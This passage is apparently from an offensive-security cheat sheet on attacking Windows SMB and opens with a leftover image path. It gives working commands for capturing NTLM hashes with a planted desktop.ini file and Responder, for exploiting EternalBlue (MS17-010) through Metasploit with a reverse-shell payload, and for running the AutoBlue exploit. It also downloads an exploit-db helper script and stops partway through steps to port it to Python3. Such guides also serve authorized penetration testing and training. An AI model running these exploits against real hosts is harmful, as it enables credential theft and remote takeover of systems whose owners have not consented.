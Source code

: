 Then upload it to the writable shared folder.
```bash
smb> put desktop.ini
```

Start responder in local machine.
```bash
responder -I tun0
```

After a while, we can retrieve the NTLM hashes.

## EternalBlue (MS17-010)
```sh
msfconsole
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> set rhosts <target-ip>
msf> set lhost <local-ip>
msf> run
# If you cannot get a shell with the default payloed (windows/x64/meterpreter/reverse_tcp), try to change the payload
msf> set payload payload/generic/shell_reverse_tcp
```

### AutoBlue
**[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)** is an automatic exploit.  
Download the repository and run the following example command.
```sh
python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
```

### Manual Exploiting
You need to have two files - exploit.py, mysmb.py
1. **Download mysmb.py**
    ```sh
    wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 
    
    # Convert DOS to UNIX
    dos2unix mysmb.py
    ```
    
2. **Edit Some Lines of mysmb.py for Python3**
    You need to edit some code because this exploit is old so only supports **Python2**.
    ```sh
    Line.69
    # transData = b''
    transData = ''
    
    Line.73
    # transData = ('\x00' * padLen) + str(parameters)
    transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)
    